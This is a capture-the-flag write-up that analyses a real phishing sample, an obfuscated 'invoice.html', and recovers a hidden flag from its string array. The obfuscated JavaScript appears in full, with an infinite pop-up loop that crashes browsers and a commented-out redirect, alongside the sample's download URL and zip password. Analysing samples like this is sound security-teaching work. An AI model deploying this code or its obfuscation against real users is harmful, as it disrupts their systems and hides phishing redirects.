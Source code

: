 # danger-Live-and-Malicious-Code

## Description

Like the title says, this challenge is dangerous and contains live malware.

Shoutout to the hacker that I stole this from challenge from. Sadly I can't give them credit because they sent the phish from a compromised email, but it's literally his/her code. I just defanged it (a little bit - it will still crash your webbrowser (usually, but don't test that outside of a VM)) and stuck a WPI flag in here.

To prevent accidental execution the file has been zipped with the password "I_understand_that_this_challenge_contains_LIVE_MALWARE"

http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip

made by: The_Abjuri5t (John F.)

## Download and inspect the code

```
kali@kali:~/Downloads/wipctf$ wget http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
--2020-04-18 16:02:14--  http://us-east-1.linodeobjects.com/wpictf-challenge-files/invoice.zip
Resolving us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)... 173.255.231.96, 45.79.157.59, 96.126.106.143, ...
Connecting to us-east-1.linodeobjects.com (us-east-1.linodeobjects.com)|173.255.231.96|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 729 [application/zip]
Saving to: ‘invoice.zip’

invoice.zip              100%[==================================>]     729  --.-KB/s    in 0s      

2020-04-18 16:02:14 (107 MB/s) - ‘invoice.zip’ saved [729/729]

kali@kali:~/Downloads/wipctf$ unzip invoice.zip 
Archive:  invoice.zip
[invoice.zip] invoice.html password: 
  inflating: invoice.html

kali@kali:~/Downloads/wipctf$ ls -l
total 8
-rw-r--r-- 1 kali kali 1243 Feb 22 22:29 invoice.html
-rw-r--r-- 1 kali kali  729 Apr 14 21:29 invoice.zip

kali@kali:~/Downloads/wipctf$ cat invoice.html 
<html>
<head>
<title></title>
</head>
<body>
<script>var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}</script></body>
</html>
```

## Analysis

Use `uglifyjs` to demangle that code.

```
kali@kali:~/Downloads/wipctf$ uglifyjs -b
var a = ['ps:','cte','5df','se_','toS','ing','tri','sub','lac','ryt','d}.','cod','pro','_no','ran','ing','dom','str','ete','rep'];function abc(def) { popupWindow = window.open( def,'popUpWindow','height=666,width=666,left=666,top=666') }(function(c, d) {var e = function(f) {while (--f) {c['push'](c['shift']());}};e(++d);}(a, 0xa8));var b = function(c, d) {c = c - 0x0;var e = a[c];return e;};var c = 'htt' + b('0xc') + '//t' + b('0x1') + b('0xe') + 'xc-' + 'rWP' + 'I';var d = '{Oh' + b('0x5') + b('0xf') + b('0x4') + b('0x3') + b('0x7') + '_d';var e = b('0xa') + b('0xd') + b('0x2') + 'net' + '/';var f = Math[b('0x6') + b('0x8')]()[b('0x10') + b('0x12') + 'ng'](0x6)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x10)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);var g = Math['ran' + 'dom']()[b('0x10') + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf) + Math[b('0x6') + b('0x8')]()['toS' + b('0x12') + 'ng'](0x24)[b('0x13') + b('0x9') + b('0x11')](0x2, 0xf);/*location[b('0xb') + b('0x0') + 'e'](c + d + e + '?' + f + '=' + g);*/for(var i=1;i===i;i++){abc(self.location,'_blank');}

var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

function abc(def) {
    popupWindow = window.open(def, "popUpWindow", "height=666,width=666,left=666,top=666");
}

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }
    };
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

for (var i = 1; i === i; i++) {
    abc(self.location, "_blank");
}
```

The for loop at the bottom is an infinite loop to create pop-up windows. We definitely don't want to run that. The other variables look interesting though. The flag is being built from the array of strings on the first line.

## Solution

Let's print those variables out and see what happens.

```
kali@kali:~/Downloads/wipctf$ cp invoice.html invoice_mod.html
kali@kali:~/Downloads/wipctf$ vim invoice_mod.html
kali@kali:~/Downloads/wipctf$ cat invoice_mod.html
<html>
<head>
<title></title>
</head>
<body>
<script>
var a = [ "ps:", "cte", "5df", "se_", "toS", "ing", "tri", "sub", "lac", "ryt", "d}.", "cod", "pro", "_no", "ran", "ing", "dom", "str", "ete", "rep" ];

(function(c, d) {
    var e = function(f) {
        while (--f) {
            c["push"](c["shift"]());
        }   
    };  
    e(++d);
})(a, 168);

var b = function(c, d) {
    c = c - 0;
    var e = a[c];
    return e;
};  

var c = "htt" + b("0xc") + "//t" + b("0x1") + b("0xe") + "xc-" + "rWP" + "I";

var d = "{Oh" + b("0x5") + b("0xf") + b("0x4") + b("0x3") + b("0x7") + "_d";

var e = b("0xa") + b("0xd") + b("0x2") + "net" + "/";

var f = Math[b("0x6") + b("0x8")]()[b("0x10") + b("0x12") + "ng"](6)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](16)[b("0x13") + b("0x9") + b("0x11")](2, 15);

var g = Math["ran" + "dom"]()[b("0x10") + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15) + Math[b("0x6") + b("0x8")]()["toS" + b("0x12") + "ng"](36)[b("0x13") + b("0x9") + b("0x11")](2, 15);

document.write("a: " + a + "<br>\n");
document.write("b: " + b + "<br>\n");
document.write("c: " + c + "<br>\n");
document.write("d: " + d + "<br>\n");
document.write("e: " + e + "<br>\n");
document.write("f: " + f + "<br>\n");
document.write("g: " + g + "<br>\n");
</script>
</body>
</html>
```

Open `invoice_mod.html` in firefox and get:

```
a: lac,ryt,d}.,cod,pro,_no,ran,ing,dom,str,ete,rep,ps:,cte,5df,se_,toS,ing,tri,sub
b: function(c, d) { c = c - 0; var e = a[c]; return e; }
c: https://tryt5dfxc-rWPI
d: {Oh_nose_procoding_d
e: etected}.net/
f: 444423500012190de9ae4937da
g: deygcrb1hmfhgg1r9kty5a
```

The flag is:

```
WPI{Oh_nose_procoding_detected}
```

